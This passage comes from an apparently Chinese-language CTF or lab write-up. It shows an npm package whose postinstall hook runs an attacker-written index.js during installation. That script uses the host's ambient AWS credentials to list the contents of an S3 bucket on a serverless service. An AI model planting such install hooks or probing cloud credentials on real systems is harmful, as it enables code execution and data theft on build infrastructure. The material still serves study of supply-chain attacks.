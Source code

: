 可以看到包是存在 亚马逊 s3 上的，而且在最后几行可以看出这个程序似乎是跑在亚马逊的 serverless 服务上的。

10、那么就来写个 nodejs 看看 s3 的  bucket 里有啥吧，把我们的包改下。

package.json 改为如下内容，版本升级，依赖加上，命令执行上。

```
{
  "name": "glzjintest1",
  "version": "1.0.7",
  "description": "",
  "main": "index.js",
  "scripts": {
	"postinstall": "cp index.js ../../test.js &amp;&amp; cd ../../ &amp;&amp; node test.js > result.txt; exit 0"
  },
  "author": "",
  "license": "ISC",
  "dependencies": {
	"aws-sdk": "^2.449.0"
  }
}
```

命令那里我复制到上上级 &#8211; -为了不重复下载依赖- -使得包太大。

index.js 改为如下内容：

```
const AWS = require("aws-sdk");

const s3Parme = {
	// accessKeyId:"xxxxxxxxxxxxxxxx",
	// secretAccessKey:"xxxxxxxxxxxxxxxxxxx",
}

var s3 = new AWS.S3(s3Parme);

// Create the parameters for calling listObjects
var bucketParams = {
  Bucket : 'static.l0ca1.xyz',
};

// Call S3 to obtain a list of the objects in the bucket
s3.listObjects(bucketParams, function(err, data) {
  if (err) {
	console.log("Error", err);
  } else {
	console.log("Success", data);
  }
});

exports.showMsg = function () {
  console.log("This is my first module");
};
```
